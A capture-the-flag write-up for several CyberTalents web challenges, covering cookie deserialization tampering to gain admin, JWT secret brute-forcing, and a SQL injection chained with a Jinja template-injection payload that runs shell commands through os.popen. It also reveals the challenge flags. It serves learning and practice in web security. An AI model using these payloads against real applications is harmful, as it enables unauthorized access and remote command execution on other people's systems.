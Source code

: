 ## 2 SEP 2021 | cybertalents


# 1- one click | 25 pts
``` 
-Type of malicious exploit of a website where unauthorized commands are submitted from a user that the web application trusts .
CSRF
```

# 2- where is the flag | 50 pts
```
in page source code :
Can you see the flag
	VGgzRmxhZzFzSDNyM0JyMA%3D%3D
  
it is base64 encoded let's decode it :
echo "VGgzRmxhZzFzSDNyM0JyMA==" | base64 -d
flag :Th3Flag1sH3r3Br0   
```

# 3- catch toka  | 50 pts
![image](https://user-images.githubusercontent.com/67979878/131999513-d567d9fc-d47d-4071-b7ff-e422ae78a903.png)

```
- try to modify request by : X-Forwarded-For: german_ip  but doesn't work 
- then i changed Accept language header to german hence it only talks german xD 
  check :https://www.websitepulse.com/kb/http_accept_language
  so in request : Accept-Language: de
```
![image](https://user-images.githubusercontent.com/67979878/132000126-f6c6f56a-a6e3-4ee7-b785-ebef8da38300.png)

# 4- wanna some biscuits | 50 pts 

![image](https://user-images.githubusercontent.com/67979878/132000336-77588af6-8497-48bc-a1f5-7d04e1443bd5.png)

```
source code doesn't contain any thing helpful however we have a cookie !
```
![image](https://user-images.githubusercontent.com/67979878/132000466-423f1156-2d82-4bd3-9b26-3fba151f4db6.png)


```
looks like insecure deserialization :D , let's modify these values (username, isAdmin)

O:4:"User":2:{s:8:"userName";s:9:"anonymous";s:7:"isAdmin";b:0;}

to

O:4:"User":2:{s:8:"userName";s:5:"admin";s:7:"isAdmin";b:1;}
```
![image](https://user-images.githubusercontent.com/67979878/132000676-4e983b9a-7367-4140-b176-270883a20b94.png)


# 5- Pasta Code | 100 pts

```
when visit it will get restricted port to open hence it runs on port 6000

great link to bypass :https://www.specialagentsqueaky.com/blog-post/r5iwj96j/2012-02-20-how-to-remove-firefoxs-this-address-is-restricted/

```

![image](https://user-images.githubusercontent.com/67979878/132001325-2f804a8d-0f0e-498d-8dae-c436c1f53e7f.png)

```
register and login with your credits you will notice a JWT in request 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluMiJ9.xh8kwc0iNg97vgw9JTENTIpvrw_JrPrYyuLbwz0ax6A

let's bruteforce it and get our secret !

```
![image](https://user-images.githubusercontent.com/67979878/132001884-84457cb9-44cb-4dbc-8853-7832afeb32ef.png)
![image](https://user-images.githubusercontent.com/67979878/132001978-746b2d5f-4667-4a9d-a1d4-38e5b71ef086.png)

```
moidfying JWT value will reveal the flag 
```

# 6- Notes | 100 pts

```
can't login or regiseter only can view notes tab and there find some notes and checked them
```
![image](https://user-images.githubusercontent.com/67979878/132009366-7b8b7624-2aac-435c-b8fa-63dc53c3238b.png)

```
when visit any page it take note name and base64 it 
```
![image](https://user-images.githubusercontent.com/67979878/132009583-954852a6-5e22-4fc0-8e64-37ecd479d81c.png)

```
it looks like if there is a hidden parameter at this tempelate and it takes this text and decode it then retrieve data 
[x] let's try inject some XSS , failed
[]  try some sql :D 

junk' UNION SELECT * FROM information_schema.tables-- => base64 it
```
![image](https://user-images.githubusercontent.com/67979878/132010241-57f1572c-5f60-4934-bd66-c19ba4e4ad8e.png)
```
so it is not MySQL let's try sqlite :
junk' UNION SELECT * FROM sqlite_master--
```
![image](https://user-images.githubusercontent.com/67979878/132010405-1d404520-60e3-4bad-b87b-4176e94ddd1c.png)
```
it looks like it is , but need to specify right number of columns 
junk' UNION SELECT tbl_name FROM sqlite_master--

```
![image](https://user-images.githubusercontent.com/67979878/132010547-3b447f89-9943-4249-be68-1472ebd07032.png)

``junk' UNION SELECT flag FROM flags--``

![image](https://user-images.githubusercontent.com/67979878/132010692-e8da36ad-8530-407d-bd64-cfae3a7ec05b.png)

we have half of the flag 
`You made it! FLAG{8f94cf148a9f01a3745e`

we have a note saying : `I like flask and this ginger thing`
ginger ==> jinja
![image](https://user-images.githubusercontent.com/67979878/132011021-9e1ae56e-26ac-485a-9663-04a7bc2608ea.png)

check : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

![image](https://user-images.githubusercontent.com/67979878/132011271-2fd73a73-5927-4a7f-93ee-dc7da7d2092e.png)

we have a hint form the author : `The second part of the flag has to do with your reflected input. what input can you reflect on the page?`
- we can only reflect our sql injection :3 so let's try inject SSTI inside SQLi 
`junk' UNION SELECT "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
" FROM flags--`
![image](https://user-images.githubusercontent.com/67979878/132011535-bc8ab651-6efd-496a-aa57-5a18c87db04b.png)
`junk' UNION SELECT "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag2.txt').read() }}
" FROM flags--`

![image](https://user-images.githubusercontent.com/67979878/132012186-f691aa0f-281a-43a6-9733-4ced95d0b297.png)

`FLAG{8f94cf148a9f01a3745e12f1fc6f8e419dc0fb08}`

# 7- grocery bot | 200 pts

